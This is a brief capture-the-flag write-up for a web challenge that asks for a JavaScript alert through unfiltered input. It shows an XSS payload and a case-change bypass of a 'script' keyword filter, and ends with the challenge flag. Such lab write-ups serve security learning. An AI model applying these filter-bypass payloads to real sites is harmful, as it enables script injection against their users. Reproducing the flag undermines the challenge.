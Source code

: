 # Challenge Name:
 [*Cool Name Effect*](https://cybertalents.com/challenges/web/cool-name-effect)
 
# Challenge Description
Webmaster developed a simple script to do cool effects on your name, but his code not filtering the inputs correctly execute javascript alert and prove it.


Link: [http://34.77.37.110/cool-effect/](http://34.77.37.110/cool-effect/)

## Answer
* Try inject javascript code in the textbox
```
<script>alert()</script>
```
* The result was "<forbidden>alert()" which mean he filtered "script" so try in another word
```
<SCRIPT>alert()</SCRIPT>
```
* You got the Flag!!


 ## The Flag
 > ciyypjz

